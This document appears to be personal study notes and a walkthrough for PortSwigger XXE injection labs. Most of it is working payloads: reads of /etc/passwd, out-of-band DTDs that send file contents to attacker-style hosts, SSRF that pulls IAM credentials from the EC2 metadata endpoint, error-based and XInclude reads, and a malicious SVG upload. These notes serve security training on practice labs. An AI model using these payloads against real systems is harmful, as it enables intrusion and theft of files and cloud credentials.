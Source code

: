 # XML External Entity (XXE) Injection

[Portswigger](https://portswigger.net/web-security/xxe)

## Methodology

### File retrieval testing

Once identified xml usage, try changing the call from somehting like:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

To:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### Blind testing

**initial test** 

Inject a call to your attacker server, collaborator can work here:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

**Using parameter entities:**

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

**Exfiltrate example out of band**

Host file like so:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Then submit request calling this file above:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Blind xxe to retrieve data via error message

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

If you get an error like so: 
![image](https://github.com/user-attachments/assets/8a7e1335-94fb-4dce-bcff-3b3e38a715c4)

host the above in the exploit server and call it like so

### exploiting blind xxe by repurposing a local DTD

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

### Locating an existing DTD file to repurpose

search for files here:

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

### Xinclude

if you find parameters you can enter in you think might be xml attempt to pull out with xinclude

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### File upload

- when inspecting a file upload attempt to enter SVG filetypes, if accepted enter in xxe payloads to attempt abuse
- sample svg file with xxe injection inside:

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## Lab Walkthrough

### Exploiting XXE using external entities to retrieve files

- check stock and notice the xml usage in the request
- ![image](https://github.com/user-attachments/assets/11bf7863-ecfa-4902-8381-66e92733c2da)
- Follow first methodology

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

- ![image](https://github.com/user-attachments/assets/12410e56-1725-415d-858c-1351bc421c07)

### Exploiting XXE to perform SSRF attacks

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/.

- check stock and notice the xml usage in the request
- ![image](https://github.com/user-attachments/assets/27034523-346a-4bbe-b002-17b799bed9a4)
- we send our request with the xml calling out to the above internal IP, and see `Invalid product ID: latest`, the latest is the value we got from SSRF so add this to the call to continue

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

- ![image](https://github.com/user-attachments/assets/1f2657d9-d531-4d9c-bda8-f0e87fcb2268)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

- continue until you get the api key you are looking for

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Blind XXE with out-of-band interaction

- similar to above but without ssrf to an internal we use burp collaborator
- ![image](https://github.com/user-attachments/assets/9bc58dbb-fb34-462b-921e-f7c7f794d44b)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://b7jvjeq1jkow49rtprqealbvwm2dq3es.oastify.com">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Blind XXE with out-of-band interaction via XML parameter entities

- use the similar out of band but with parameter entities
- ![image](https://github.com/user-attachments/assets/2e97d0c0-44c1-44e9-b901-8426121c2d10)

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

### Exploiting blind XXE to exfiltrate data using a malicious external DTD

- target same stock check issue
- host malicious DTD on the exploit server

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
- then send xxe to call out with the hostname
- ![image](https://github.com/user-attachments/assets/fd84eac7-1e75-48c3-a728-6bfa660aa468)
- check collaborator and you get the hostname

### Exploiting blind XXE to retrieve data via error messages

- when attempting to trigger with regular exploit get an error like this
- ![image](https://github.com/user-attachments/assets/8a7e1335-94fb-4dce-bcff-3b3e38a715c4)
- now host this

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

- then call it with this

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ac800d20360d877834b956f013c00d9.exploit-server.net/exploit"> %xxe;]>
```

- ![image](https://github.com/user-attachments/assets/9044f10c-1447-4a93-b59c-f11518b4e948)

### Exploiting XInclude to retrieve files

- use check stock and see the values listed
- ![image](https://github.com/user-attachments/assets/ea500b1e-527b-40c0-9564-a8916601ae71)
- place below into the productId value, make sure to url encode it


```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

- ![image](https://github.com/user-attachments/assets/8b5e1732-bef5-4029-8149-b75fe7006963)


### Exploiting XXE via image file upload

- Create a local SVG image with the following content

```
    <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

- Post a comment on a blog post, and upload this image as an avatar.
- When you view your comment, you should see the contents of the /etc/hostname file in your image. Use the "Submit solution" button to submit the value of the server hostname.






